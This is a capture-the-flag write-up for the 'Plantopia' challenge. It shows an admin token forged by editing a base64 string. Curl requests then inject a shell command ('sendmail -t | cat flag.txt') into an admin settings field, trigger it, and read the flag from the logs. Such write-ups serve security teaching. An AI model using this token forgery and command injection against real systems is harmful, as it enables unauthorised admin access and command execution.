 # Plantopia

Login with provided `testuser`/`testpassword` combo.
Get the admin token (can take your token, base64 decode, will be `testuser.0.<timestamp>` change it to
`admin.1.<timestamp>` and that will work for admin.

First update the alert command in the sendmail command:

```shell
curl -X 'POST' \
  'http://challenge.ctf.games:<PORT>/api/admin/settings' \
  -H 'accept: application/json' \
  -H 'Authorization: YWRtaW4uMS4xNzI5NjQ0NTE5' \
  -H 'Content-Type: application/json' \
  -d '{
  "plant_id": 1,
  "alert_command": "/usr/sbin/sendmail -t | cat flag.txt",
  "watering_threshold": 50
}'
```

Then trigger the command:

```shell
curl -X 'POST' \
  'http://challenge.ctf.games:<PORT>/api/admin/sendmail' \
  -H 'accept: application/json' \
  -H 'Authorization: YWRtaW4uMS4xNzI5NjQ0NTE5' \
  -H 'Content-Type: application/json' \
  -d '{
  "plant_id": 1
}'
```

Then the exectution output will be in the admin logs:

```shell
curl -X 'GET' \
  'http://challenge.ctf.games:<PORT>/api/admin/logs' \
  -H 'accept: application/json' \
  -H 'Authorization: YWRtaW4uMS4xNzI5NjQ0NTE5'

DEBUG - Executing command: /usr/sbin/sendmail -t | cat flag.txt\n2024-10-23 00:22:25,019 - DEBUG - Command output: flag{c29c4d53fc432f7caeb573a9f6eae6c6}\n\n2024-10-23 00:22:25,019 
```